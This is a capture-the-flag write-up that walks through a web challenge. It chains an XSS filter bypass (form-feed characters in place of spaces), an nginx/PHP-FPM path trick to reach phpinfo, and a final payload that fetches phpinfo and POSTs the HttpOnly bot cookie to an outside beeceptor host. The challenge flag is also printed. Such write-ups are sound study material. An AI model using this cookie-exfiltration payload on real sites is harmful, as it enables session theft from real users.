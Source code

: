 ## Description 
  Just to warm you up for the next Fight :"D
## Walkthrough:
  **the challenges was provided with a src code
  the src code is made of 4 main files 
  1- index.php 
  2- info.php
  3- bot.js
  4- nginx.conf**

  **The flag is in the bot.js cookie with a httponly attribute this means that JS cannot access the cookie**

  **1-index.php**
  
  ![image](https://github.com/user-attachments/assets/7d144810-397a-4ae2-91f0-b63c47938092)

  **so it is clear that we can get xss from the name get parameter but how?**

  **The main problem is in the Enhanced_Trim function that replaces the defined charset with "" so how can we bypass it to make an alert?**

  **at first i looked for alternatives for the space and found that %0C can work so the payload to make a simple alert -> <img%0Csrc=x%0Conerror=alert``>**

  **but this doesn't have any value since we cannot use JS to steal the cookie because of the httponly attribute on the cookie**

  **the solution was in the info.php that views the phpinfo**

  ![image](https://github.com/user-attachments/assets/b0ad6b6d-cf28-4f41-9bf4-313659f4ac4c)

  **so how we can use phpinfo to get the bot cookie?**
  
  **when a user visits the phpinfo page it reflects its cookie in the response even the HttpOnly ones like this**

  ![phpinfo-dvwa-1](https://github.com/user-attachments/assets/fbce6706-e779-43e4-be72-60b4c27ef1cd)


  **so now we can make the bot visit the info.php page then take the response and send it to our server right? wrong, this will not work because of nginx.conf lets take a look at it**

  ![image](https://github.com/user-attachments/assets/e8283328-e2fa-4412-947c-aa0eddddba59)

  **so in the nginx.conf it says that the info.php is only accessible from the localhost (the bot doesnt see the localhost of the challange so it cannot access it)**

  **that solution was in the last part of the configuration that includes and runs any file endwith .php so we can it to access the info.php right?**

  **I found this on hacktricks that allowed me to bypass the validation and access the info.php (https://book.hacktricks.xyz/pentesting-web/proxy-waf-protections-bypass#php-fpm)**

  **so now we can access the info.php like this -> /info.php/index.php**

  ![image](https://github.com/user-attachments/assets/a822c94b-027c-498d-92de-f019cbc9e6e4)

  **so now we can make the bot visit the /info.php/index.php and get the response and send it to our server**

  ```
  payload ->
  <img%0Csrc=x%0Conerror='fetch("info.php%252Findex.php")%0C.then(response%0C=>%0Cresponse.text())%0C.
then(data%0C=>%0Cfetch("https://qlashx.free.beeceptor.com/",%0C{method:"POST",%0Cheaders:{%0C"Content-Type":"application/x-www-form-urlencoded"},%0Cbody:"data="%0C%2BencodeURIComponent(data)})%0C)'> 
  ```


    ![image](https://github.com/user-attachments/assets/943c34c6-11f1-4835-81dd-e08e9c665855)



`flag -> idek{Ghazy_N3gm_Elbalad} `
